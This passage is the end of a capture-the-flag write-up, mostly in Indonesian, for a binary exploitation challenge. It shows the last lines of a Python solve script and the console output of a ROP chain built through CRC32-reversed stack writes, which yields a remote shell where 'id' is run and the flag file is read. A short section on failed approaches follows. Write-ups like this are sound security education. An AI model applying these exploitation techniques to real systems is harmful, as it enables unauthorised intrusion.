 ```py
write_to_stack(24, reverse_crc32(0x0004e8a8), more=False)

# svc 0

r.interactive()
```

```sh
λ › python solve.py
[+] Opening connection to 159.65.80.92 on port 31337: Done
[ENTER TO CONTINUE]
[+] Stored 99014 in slot 13
[+] Stored 5ab18 in slot 14
[+] Stored 99020 in slot 15
[+] Stored 0 in slot 16
[+] Stored 6ef8c in slot 17
[+] Stored 0 in slot 18
[+] Stored 1a194 in slot 19
[+] Stored 0 in slot 20
[+] Stored 99014 in slot 21
[+] Stored 6e810 in slot 22
[+] Stored b in slot 23
[+] Stored 4e8a8 in slot 24
Store more? (y/n): $ n
sh: 1: n: not found
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat /home/ctf/flag
sctf{pUts_0n_sh4d3s_w3r3_1n}
$ 
[*] Closed connection to 159.65.80.92 port 31337
```
<center>`FLAG : sctf{pUts_0n_sh4d3s_w3r3_1n}`</center>

---

## Some Failed Attack Ideas

Awalnya mau pakai teknik ROP dengan `stack pivot` tapi ternyata gadgets untuk mengontrol `sp` kurang bagus karena entah kenapa stack dan bss jadi berantakan. Sebelum pakai tools `reveng` untuk reverse crc32 perhitungan masih dilakukan secara manual, ini agak makan waktu banyak juga karena kalau buat database crc32 perlu space besar dan perhitungan manual itu perlu makan banyak waktu :(.
